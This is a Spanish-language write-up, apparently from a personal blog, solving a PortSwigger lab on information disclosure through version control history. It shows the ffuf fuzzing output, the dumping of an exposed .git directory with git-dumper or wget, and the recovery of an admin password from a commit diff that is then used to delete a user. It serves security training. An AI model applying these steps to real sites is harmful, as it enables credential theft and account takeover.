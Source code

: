 ```yaml
---
title: Information Disclosure Lab 5
date: 2024-12-03 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - Information Disclosure
tags:
  - Information Disclosure
  - Information disclosure in version control history
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Skills

- Information disclosure in version control history

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` `revela` información `sensible` a través de su `historial de control de versiones`. Para `resolver` el laboratorio, `obtén` la `contraseña` del `usuario administrador`, luego `inicia sesión` y `elimina` al `usuario` `carlos`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Information-Disclosure-Lab-5/image_1.png)

`Fuzzeamos` la `web`, además de hacerlo desde `Burpsuite` podemos usar herramientas como `fuff` desde `consola`

```
# ffuf -c -t 10 -w /usr/share/seclists/Discovery/Web-Content/common.txt -u https://0a09009203fe839383e93ca700bf000c.web-security-academy.net/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://0a09009203fe839383e93ca700bf000c.web-security-academy.net/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.git/logs/              [Status: 200, Size: 548, Words: 152, Lines: 19, Duration: 77ms]
.git/index              [Status: 200, Size: 225, Words: 2, Lines: 3, Duration: 132ms]
.git/HEAD               [Status: 200, Size: 23, Words: 2, Lines: 2, Duration: 184ms]
.git/config             [Status: 200, Size: 157, Words: 14, Lines: 9, Duration: 171ms]
.git                    [Status: 200, Size: 1201, Words: 256, Lines: 27, Duration: 199ms]
ADMIN                   [Status: 401, Size: 2617, Words: 1049, Lines: 54, Duration: 58ms]
Admin                   [Status: 401, Size: 2617, Words: 1049, Lines: 54, Duration: 54ms]
Login                   [Status: 200, Size: 3192, Words: 1315, Lines: 64, Duration: 52ms]
admin                   [Status: 401, Size: 2617, Words: 1049, Lines: 54, Duration: 54ms]
analytics               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 52ms]
```

Con `git-dumper` [https://github.com/arthaud/git-dumper.git](https://github.com/arthaud/git-dumper.git) podemos `descargarnos` todo el `.git/` y si queremos una alternativa con `interfaz gráfica` podemos usar `git-cola` [https://github.com/git-cola/git-cola.git](https://github.com/git-cola/git-cola.git)

```
# git-dumper https://0a460009044cee648030a7e300300090.web-security-academy.net/.git/ project
```

Otra alternativa sería `descargarnos` todo usando `wget`

```
# wget -r https://0a460009044cee648030a7e300300090.web-security-academy.net/.git/
```

`Listamos` los `logs`

```
# git log                                          
commit 0de9db705d356593125a122dd61dc2c5b4c059d6 (HEAD -> master)
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

commit 8ce2169ffe2532afaddebd8b63c8cedad993e662
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel
```

`Vemos` el `último commit` y `obtenemos` una `contraseña`

```
# git show 0de9db705d356593125a122dd61dc2c5b4c059d6
commit 0de9db705d356593125a122dd61dc2c5b4c059d6 (HEAD -> master)
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

diff --git a/admin.conf b/admin.conf
index 26742e2..21d23f1 100644
--- a/admin.conf
+++ b/admin.conf
@@ -1 +1 @@
-ADMIN_PASSWORD=z9xi7od0a1z0ar5c36jz
+ADMIN_PASSWORD=env('ADMIN_PASSWORD')
```

Nos `logueamos` con las credenciales `administrator:z9xi7od0a1z0ar5c36jz`

![](/assets/img/Information-Disclosure-Lab-5/image_2.png)

Pulsamos sobre `Admin panel` y le `borramos` la `cuenta` al usuario `carlos`

![](/assets/img/Information-Disclosure-Lab-5/image_3.png)
